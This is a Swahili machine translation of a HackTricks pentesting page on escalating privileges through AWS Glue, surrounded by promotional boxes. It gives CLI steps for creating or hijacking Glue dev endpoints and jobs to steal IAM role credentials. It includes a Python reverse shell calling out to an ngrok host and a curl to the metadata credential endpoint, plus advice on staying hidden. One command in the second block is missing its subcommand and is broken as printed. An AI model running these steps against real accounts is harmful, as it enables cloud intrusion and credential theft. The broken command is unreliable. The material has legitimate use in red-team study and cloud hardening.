 # AWS - Ukarabati wa Mamlaka ya Glue

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Watumiaji wenye ruhusa hizi wanaweza **kuweka upya mwisho wa maendeleo wa AWS Glue**, **kwa kumtambulisha jukumu la huduma lililopo** na ruhusa maalum kwa mwisho huu.

Baada ya usanidi, **mshambuliaji anaweza kuingia kwa SSH kwenye kifaa cha mwisho**, na kuiba siri za IAM za jukumu lililopewa.
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Kwa lengo la kujificha, ni vyema kutumia sifa za IAM kutoka ndani ya mashine ya Glue.

**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya Glue lililoelezwa.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Watumiaji wenye idhini hii wanaweza **kubadilisha ufunguo wa SSH wa kifaa cha maendeleo cha Glue kilichopo**, **kuruhusu ufikiaji wa SSH kwake**. Hii inaruhusu mshambuliaji kutekeleza amri kwa mamlaka ya jukumu lililounganishwa na kifaa hicho:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya glue linalotumiwa.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Watumiaji wenye **`iam:PassRole`** pamoja na **`glue:CreateJob` au `glue:UpdateJob`**, na pia **`glue:StartJobRun` au `glue:CreateTrigger`** wanaweza **kuunda au kusasisha kazi ya AWS Glue**, kuambatisha akaunti yoyote ya **huduma ya Glue**, na kuanzisha utekelezaji wa kazi. Uwezo wa kazi ni pamoja na kukimbia nambari ya Python isiyojulikana, ambayo inaweza kutumika kuanzisha kabati la kurudi. Kabati hili la kurudi linaweza kutumika kuchukua **vyeti vya IAM** vya jukumu lililoambatishwa kwenye kazi ya Glue, ikisababisha ufikiaji usioruhusiwa au hatua kulingana na ruhusa za jukumu hilo:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya glue lililoelezwa.

### `glue:UpdateJob`

Kwa idhini ya kusasisha pekee, mshambuliaji anaweza kuiba Anwani za IAM za jukumu lililounganishwa tayari.

**Athari Inayowezekana:** Privesc kwa jukumu la huduma ya glue lililounganishwa.

## Marejeo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
